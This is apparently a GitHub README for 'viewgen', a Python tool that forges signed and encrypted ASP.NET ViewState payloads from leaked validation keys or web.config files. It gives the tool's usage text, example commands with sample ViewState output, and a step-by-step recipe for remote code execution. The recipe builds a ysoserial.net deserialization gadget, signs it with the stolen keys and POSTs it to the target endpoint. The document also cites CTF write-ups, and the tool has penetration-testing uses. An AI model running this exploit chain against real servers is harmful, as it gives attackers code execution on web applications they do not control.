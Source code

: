 # viewgen

### ASP.NET ViewState Generator

**viewgen** is a ViewState generator capable of both signing and encrypting payloads with leaked validation keys or `web.config` files.

---------------

**Requirements**: Python 3

**Implemented**: AES, DES (Encryption) and MD5, SHA1/256/384/512 (Signatures)

**Not implemented**: 3DES (Encryption) and AES/3DES (Signatures)

### Installation

`pip3 install --upgrade -r requirements.txt` or `./install.sh`


---------------

### Usage
```bash
$ ./viewstate -h
usage: viewgen [-h] [-c WEBCONFIG] [-m MODIFIER] [-e] [-d] [--guess] [--check]
               [--vkey VKEY] [--valg VALG] [--dkey DKEY] [--dalg DALG]
               payload

viewgen is a ViewState generator, capable of both signing and encrypting
payloads with leaked validation keys

positional arguments:
  payload               viewState payload (base 64 encoded)

optional arguments:
  -h, --help            show this help message and exit
  -c WEBCONFIG, --webconfig WEBCONFIG
                        loads web.config file
  -m MODIFIER, --modifier MODIFIER
                        VIEWSTATEGENERATOR value
  -e, --encrypted       Viewstate is encrypted
  -d, --decode          decodes ViewState payload
  --guess               guess signature and encryption mode
  --check               checks if modifier and keys are correct for a given
                        ViewState payload
  --vkey VKEY           validation key
  --valg VALG           validation algorithm
  --dkey DKEY           decryption key
  --dalg DALG           decryption algorithm
```

---------------

### Examples

```bash
$ ./viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[+] ViewState
(('1628925133', (None, [3, (['enctype', 'multipart/form-data'], None)])), None)
[+] Signature
7441f6eeb4fab5a5f30d6ba99908c08eb683b9e6
[+] Signature match

$ ./viewgen --webconfig web.config --modifier CA0B0334 "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRk"
r4zCP5CdSo5R9XmiEXvp1LHVzX1uICmY7oW2WD/gKS/Mt/s+NKXrMpScr4Gvrji7lFdHPOttFpi2x7YbmQjEjJ2NdBMuzeKFzIuno2DenYF8yVVKx5+LL7LYmI0CVcNQ+jH8VxvzVG58NQIJ/rSr6NqNMBahrVfAyVPgdL4Eke3Bq4XWk6BYW2Bht6ykSHF9szT8tG6KUKwf+T94hFUFNIXXkURptwQJEC/5AMkFXMU0VXDa
```

---------------

### Achieving Remote Code Execution

Leaking the `web.config` file or validation keys from ASP.NET apps results in RCE via ObjectStateFormatter deserialization if ViewStates are used.

1 - Generate a payload with [ysoserial.net](https://github.com/pwntester/ysoserial.net):

```bash
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "ping x.x.x.x"
```

2 - Grab a modifier (`__VIEWSTATEGENERATOR` value) from a given endpoint of the webapp

3 - Generate the signed/encrypted payload:

```bash
viewgen --webconfig web.config --modifier MODIFIER PAYLOAD
```

4 - Send a POST request with the generated ViewState to the same endpoint

5 - Profit 🎉🎉

---------------

**Thanks**

- [@infosec_au](https://twitter.com/infosec_au)
- [@orange_8361](https://twitter.com/orange_8361)
- [@smiegles](https://twitter.com/smiegles)

**CTF Writeups**

- https://xz.aliyun.com/t/3019
- https://cyku.tw/ctf-hitcon-2018-why-so-serials/
